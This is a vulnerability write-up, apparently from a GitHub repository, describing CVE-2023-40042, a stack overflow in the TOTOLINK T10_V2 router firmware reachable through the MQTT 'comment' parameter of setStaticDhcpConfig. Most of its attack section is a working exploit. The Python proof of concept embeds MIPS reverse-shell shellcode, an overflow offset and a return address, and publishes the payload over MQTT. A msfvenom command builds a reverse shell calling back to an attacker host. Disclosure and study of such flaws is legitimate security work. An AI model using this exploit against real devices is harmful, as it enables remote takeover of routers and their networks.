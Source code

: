 Use CVE-2023-40042
===========
Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/172/ids/36.html <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setStaticDhcpConfig**.
Attackers can send dirty data by mqtt packet into parameter **comment** to control the return address and execute shellcode or make DoS attack. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/lan.so** <br>

In the function **setStaticDhcpConfig**, the content obtained by program through parameter **comment** given by MQTT data packet is passed to variable **v9**. 
Then, the variable **v9** will copy to the variable **v17+2**, however,**v17** is on the stack,but there isn't any length check of **v9**.
So we can set **addEffect** = **1** and **macAddress** = **which data you like** to execute **strcpy**,and set the length of **comment's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/4.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **comment** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

pay = "a"*122 + "\x90\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setStaticDhcpConfig',payload='{"topicurl":"setting/setStaticDhcpConfig","addEffect":"0","enable":"1","macAddress":":bbbb","comment":"'+pay+'"}'+'bbbbb'+buf)
```
**PS:** <br>
The offset maybe different in each device. <br>
**\x90\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```

Attack Demo
========


Get the reverse shell!
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/2.jpg)
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/3.jpg)
you can clearly sea the connection between two device is built.
